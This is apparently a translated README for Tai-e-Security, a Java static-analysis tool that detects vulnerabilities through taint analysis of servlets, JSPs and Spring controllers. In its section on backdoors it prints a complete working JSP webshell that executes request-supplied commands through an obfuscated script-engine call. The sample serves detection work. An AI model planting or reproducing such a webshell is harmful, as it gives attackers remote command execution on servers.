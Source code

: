 # Introduction

[中文](README_zh.md)

Tai-e-Security is a vulnerability detection tool based on the Tai-e Java static detection framework, primarily designed to address some engineering adaptation issues.

# Where are these Threats from

![vul_intro_point.png](images/vul_intro_point.png)

* Introduced by Containers

In the Java world, the concept of containers is diverse, and these containers exist in the industry in a standardized form, such as the servlet container and its implementation Tomcat, the EJB container and its implementation Jboss, and the Java bean reality standard Spring and its suite.

* Introduced by Components

These components themselves cannot form a runnable program, such as Log4j, Fastjson, etc. The exploitation of their vulnerabilities requires being incorporated into a runnable program.

* Introduced by Business Logic

This part is the business side writing its own logic code based on the above Java infrastructure, such as various controllers, services, etc.

# Who Introduces

* Developers

The above mainly explains the threats introduced inadvertently by third parties or their own developers.

* Hackers

Backdoors left by hackers, such as webshells, or other persistent Java class backdoors. If it is a backdoor, there will be code detection confrontation, such as shell exploitation using reflection, dynamic JavaScript engine script obfuscation, so the detection effect of JSP webshells aimed at hackers is relatively weaker.

```java
<%@ page import="java.util.*,java.io.*,javax.script.*,java.net.*"%>
<%
//
// JSP_KIT
//
// 1.jsp = Command Execution (unix)
//
// by: huzhanchi
//
%>
<HTML><BODY>
<%
if (request.getParameter("cmd") != null) {
        String n = request.getParameter("cmd");
  try {
        n = java.net.URLDecoder.decode(n, "UTF-8");
			} catch (Exception e) {
					  e.printStackTrace();
			}
        String j = System.getProperty("java.version");
        ScriptEngineManager engineManager = new ScriptEngineManager();
        ScriptEngine engine = null;
        boolean b = j.indexOf("1.7") == 0 ? true : false;
        engine = engineManager.getEngineByName("js");
        String m = b ? "(function sum() {importPackage(java.util);importPackage(java.lang);Runtime.getRuntime().exec(a); return a; })(a)" :
          "load(\"nashorn:mozilla_compat.js\");(function sum() {importPackage(java.util);importPackage(java.lang);Runtime.getRuntime().exec(a); return a; })(a)";
        Bindings bindings = engine.createBindings();
        bindings.put("a", n);
        engine.setBindings(bindings, ScriptContext.GLOBAL_SCOPE);
        engine.eval(m, bindings);
  }
%>
</BODY></HTML>
```

# Taint Analysis Detection

The main logic of taint analysis detection is based on existing vulnerability knowledge, that is, sources and sinks.

## Difficulties Encountered

Facing a variety of codebases, we need to determine which part to audit, and there are two types of audits:
1. A complete business system, covering containers, various dependent components, and business logic beans.
2. Auditing a component without business logic alone.

One difficulty of the second method is how to reasonably define an effective source and whether it is widely present in reality, such as the log4j shell being hidden for so long, I think one of the reasons is that the log.error method as a source is not the top priority in the conventional audit thinking, because it is not as direct as HttpRequest.

## Auditing a Component Without Business Logic

Now most open source projects will have Unit tests, identifying reasonable and effective sources and entry points should be a valuable direction.

## Auditing a Complete Business System
This will involve a large number of components.

* Where to start from the above-mentioned threat introduction points

Currently, it is difficult to implement end-to-end detection, that is, traffic from the most direct entry Tomcat internal filter chain, we are more concerned about the part after the traffic enters the controller or servlet. Of course, there are also many vulnerabilities before that, such as the deserialization vulnerabilities of fastjson and jackson, and the deserialization vulnerability of shiro's cookie.
These vulnerabilities are exploited before entering the controller. This project also starts with the Spring controller and servlet as the entry point.

![dataflow.png](images/dataflow.png)

* Difficulties in Defining Entry Points and Sources

The ultimate difficulty is how to deal with reflection during analysis, whether it is IOC or annotation and proxy patterns. A lot of Java is based on declarative, such as various DSLs, Spring IOC xml is a kind of DSL, and various annotations are also a kind of DSL. This is a declaration of what I want, and the specific logic is on the other side of the code, and it will involve reflection operations.

What are the solutions? I haven't figured out the general level, looking forward to the framework such as Tai-e having its own reflection model, and I haven't delved into this part, what other ways are provided by the Tai-e framework to solve reflection, the following are two workaround directions:

## Custom Plugin (WIP)

Based on the plugin mechanism provided by Tai-e, customize special processing in your own analysis field, adding your own entry points and sources.

## Reflection Expansion

Reflection expansion, that is, removing the magic syntax of reflection and expanding them into simple ways. Some methods used in this repository are, for example, mocking all Spring controllers into a servlet.

![servlet.png](images/servlet.png)

The mock process here is organized and interdependent through gradle tasks.

### JSP or Servlet

For JSP, first use Jasper to convert JSP to a servlet.

### Spring Web

Expand all IOC injection functions into a procedural style.

``` java
import javax.servlet.*;
import javax.servlet.http.*;
import java.io.IOException;

public class MyServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            String mockInput = request.getParameter("mock");
            #foreach($controller in $controllerList)
                #set($ctrIndex= $foreach.index)
                ${controller.className} ctr$ctrIndex = new ${controller.className}();
                    #foreach($method in $controller.mappingItems)
                    ctr${ctrIndex}.${method.name}(#foreach($arg in $method.args)
                #if($arg=="javax.servlet.http.HttpServletRequest") request #elseif($arg=="javax.servlet.http.HttpServletResponse") response #else mockInput #end #if($foreach.hasNext),#end#end );
            #end
            #end
            response.getWriter().println("Hello, this is my servlet!");
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```

# Todo List

- [x] JSP webshell
- [x] Log4j shell
- [x] Java security code
- [x] Servlet
- [x] Spring controller
- [ ] Unit test entry point

Please note that this is a direct translation, and some technical terms and code snippets may require further adjustment to fit into the context of the original document.
